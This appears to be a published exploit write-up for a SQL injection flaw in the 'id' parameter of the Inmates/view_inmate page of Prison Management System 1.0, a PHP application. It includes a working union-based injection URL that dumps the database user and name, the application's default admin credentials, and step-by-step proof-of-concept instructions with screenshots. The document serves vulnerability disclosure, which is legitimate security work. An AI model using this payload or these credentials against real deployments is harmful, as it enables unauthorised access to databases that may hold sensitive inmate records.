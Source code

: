 # Prison Management System  - Inmates/view_inmate 'id' SQL inject(SQLI)


#### Exploit Title: Prison Management System  - Inmates/view_inmate 'id' SQL inject(SQLI)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15368&title=Prison+Management+System+in+PHP%2FOOP+Free+Source+Code
#### Version: Prison Management System 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Prison Management System does not filter the content correctly at the "Inmates/view_inmate" id parameter, resulting in the generation of SQL injection.

#### Payload used:
http://localhost/pms/admin/?page=inmates/view_inmate&id=1%27%20and%201=2%20union%20select%201,user(),3,4,5,6,7,8,9,0,database(),2,3,4,5,6,7,8,9,0,1,2,3,4--+

#### Proof of Concept

1. Login the CMS. 
    Admin Default Access:
    username:admin
    Password: admin123

2. Open Page http://localhost/pms/admin/?page=inmatesand click View button
![image-20220523162828564](./img/image-20220523162828564.png)
![image-20220607095010559](./img/Prison Management System(XSS).assets/image-20220607095010559.png)
![image-20220606142934357](../img/Prison Management System(SQLI).assets/image-20220606142934357.png)

![image-20220606142955008](../img/Prison Management System(SQLI).assets/image-20220606142955008.png)

   

3. Put SQL payload   in the browser;


4. Viewing the dbuser and database name in page;

![image-20220606143008496](./img/Prison Management System(SQLI).assets/image-20220606143008496.png)

